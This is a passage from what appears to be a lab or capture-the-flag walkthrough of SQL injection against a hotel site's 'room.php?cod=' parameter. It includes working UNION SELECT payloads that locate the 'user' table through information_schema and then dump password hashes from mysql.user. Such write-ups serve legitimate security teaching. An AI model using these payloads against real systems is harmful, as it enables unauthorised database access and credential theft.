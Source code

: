 The only one with a &#8216;password&#8217; column is the table &#8216;user&#8217;. I already knew that the table is not in the &#8216;hotel&#8217; database, so I needed to figure out which one has it.

&nbsp;

`room.php?cod=99%2527 UNION SELECT ALL 1,table_schema,3,4,table_name,6,7 FROM information_schema.columns where table_name like 'user' limit 0,1`

&nbsp;

<img class="alignnone size-full wp-image-156" src="/assets/img/2019/08/js_sqli_database2.png" /> 

It is &#8216;MySQL&#8217;. With that needed bit of info, a statement could be made to extract the credentials.

Step 4 &#8211; Extract the desired fields.

`room.php?cod=99%2527 UNION SELECT ALL 1,Password,3,4,user,6,7 FROM mysql.user limit 0,1`

<img class="alignnone size-full wp-image-157" src="/assets/img/2019/08/js_sqli_password.png" /> 

